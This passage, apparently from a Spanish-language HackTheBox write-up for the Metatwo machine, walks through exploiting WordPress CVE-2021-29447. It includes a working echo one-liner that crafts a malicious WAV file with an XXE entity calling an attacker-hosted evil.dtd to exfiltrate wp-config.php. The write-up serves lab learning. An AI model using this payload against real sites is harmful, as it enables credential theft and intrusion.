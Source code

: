 Voy a buscar alguna vulnerabilidad para esta versión a través de searchsploit.

![](/assets/images/HTB/Metatwo-HackTheBox/searchsploit.webp)

Pero no me sirve ninguno de esos, asique paso a buscar en google a ver si encuentro algo.

Y buscando encuentro esto:

![](/assets/images/HTB/Metatwo-HackTheBox/vuln.webp)

Existe una vulnerabilidad XXE que consiste en cargar un archivo y explotar un problema de análisis XML.

Y buscando encuentro un exploit que me puede servir para explotar esta vulnerabilidad.

[https://github.com/motikan2010/CVE-2021-29447](https://github.com/motikan2010/CVE-2021-29447)

Me descargo el exploit y sigo los pasos:

```bash
# Ejecutamos el servidor web atacante
make up-mal

# Editamos el archivo evil.dtd añadiendo la ruta del archivo wp-config.php y añadiendo nuestra ip
```
![](/assets/images/HTB/Metatwo-HackTheBox/evildtd.webp)

```bash
# Generamos un archivo WAV malicioso
$ echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.32:8001/evil.dtd'"'"'>%remote;%init;%trick;] >\x00'> malicious.wav

# Subimos el archivo wav al panel de subida de archivos de Wordpress
```
![](/assets/images/HTB/Metatwo-HackTheBox/wav.webp)
